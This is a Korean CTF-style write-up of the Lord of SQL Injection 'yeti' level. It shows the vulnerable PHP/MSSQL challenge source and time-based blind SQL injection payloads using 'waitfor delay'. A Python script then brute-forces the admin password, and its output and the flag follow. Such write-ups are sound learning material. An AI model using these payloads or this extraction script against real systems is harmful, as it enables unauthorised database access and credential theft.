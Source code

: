 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - yeti 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제 이름은 `yeti`다.  

소스코드를 짜서 풀어야 하는 `Blind SQL Injection` 문제였다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from prob_yeti where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect("yeti");
  if(preg_match('/master|sys|information|;/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|;/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select id from prob_yeti where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);

  $query = "select pw from prob_yeti where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("yeti"); 
  highlight_file(__FILE__);
?>
```

문제를 풀기 위해서는 `id='admin'`일 때 `pw`의 값을 알아야 한다.  

그런데 `pw`의 값을 정확하게 알아야 하는데 내가 입력한 쿼리의 결과가 참인지 거짓인지 구분할 만한 무언가가 없다.  

그래서 `Time based Blind SQL Injection`를 통해 `pw`의 값을 알아내기로 했다.  

`MySQL`에서는 그냥 `sleep`를 사용하면 됬었는데, `MSSQL`에서는 `sleep`가 딱히 없는 것 같다.  

그래서 `waitfor delay`를 사용했다.  

`waitfor delay [지연시간]`의 형태로 사용하면 되는데, 이 때 `지연시간`은 `00:00:05`와 같이 `시:분:초`의 형태로 넣어 주어야 한다.  

먼저 아래의 값을 입력 해 `waitfor delay`로 문제를 풀 수 있는지 테스트 해 보았다.  

```
?id=a&pw=1' if 1=1 waitfor delay '00:00:03' else waitfor delay '00:00:00' --
```

`if`문을 통해 `1=1`의 조건을 검사하고 해당 조건이 참이라면 3초 동안 지연을, 아니라면 지연을 하지 않는 쿼리문이다.  

해당 쿼리 테스트 결과 아래와 같이 3초 지연된 결과를 받을 수 있었다.  

![](./images/los/yeti/yeti_01.png)  

이제 위의 쿼리에서 `1=1` 부분을 `pw`의 길이와 값을 알아내기 위한 쿼리로 바꾸면 문제를 풀 수 있을 것이다.  

길이를 알아내기 위해서 아래와 같은 쿼리를 사용했다.  

```
id=a&pw=1' if ((select len(pw) from prob_yeti where id='admin') = 1) waitfor delay '00:00:03' else waitfor delay '00:00:00' -- 
```

`prob_yeti` 테이블에서 `id='admin'`인 행의 `pw 길이`를 `select`하고 만약 그 결과가 `3초 이상 지연`된다면 해당 값이 길이일 것이다.  

또한 값을 알아내기 위해서는 아래와 같은 쿼리를 사용했다.  

```
id=a&pw=1' if ((select pw from prob_yeti where id='admin') like 'a%') waitfor delay '00:00:03' else waitfor delay '00:00:00' -- 
```

`like`을 사용했는데, 만약 `prob_yeti` 테이블에서 `id='admin'`인 행의 `pw`를 추출 했을 때 맨 첫번째 글자가 `a`라면 3초 지연 후 결과 값을 얻을 수 있을 것이다.  

이를 바탕으로 아래와 같이 자동화 코드를 구현했다.  

```python
import urllib2
import urllib
import requests
import time

flag = ""
length = 0

url = "https://los.rubiya.kr/chall/yeti_e6afc70b892148ced2d1e063c1230255.php?id=a&pw=1'"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 40):
	try:
		start = time.time()
		query = url + " if ((select len(pw) from prob_yeti where id='admin') = " + str(i) + ") waitfor delay '00:00:03' else waitfor delay '00:00:00' -- "
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if (time.time() - start) > 3:
		length = i
		break	

print "[+] Found length : ", length

print "[+] Find password"
	
for j in range(1, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + " if ((select pw from prob_yeti where id='admin') like '" + flag + str(chr(i)) + "%') waitfor delay '00:00:03' else waitfor delay '00:00:00' -- "
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if (time.time() - start) > 3:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 아래와 같이 결과값을 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 6
[+] Found 2 : 64
[+] Found 3 : 642
[+] Found 4 : 6425
[+] Found 5 : 6425B
[+] Found 6 : 6425B7
[+] Found 7 : 6425B72
[+] Found 8 : 6425B725
[+] Found password :  6425B725
[+] End
```

따라서 알파벳을 소문자로 바꾸어 아래와 같이 입력하면 문제를 풀 수 있다.  

```
?pw=6425b725
```

```php
------------------------------------------------------------------------------------
query : select id from prob_yeti where id='' and pw='6425b725'
------------------------------------------------------------------------------------

YETI Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect("yeti");
  if(preg_match('/master|sys|information|;/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|;/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select id from prob_yeti where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);

  $query = "select pw from prob_yeti where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("yeti"); 
  highlight_file(__FILE__);
?>
```

`YETI Clear`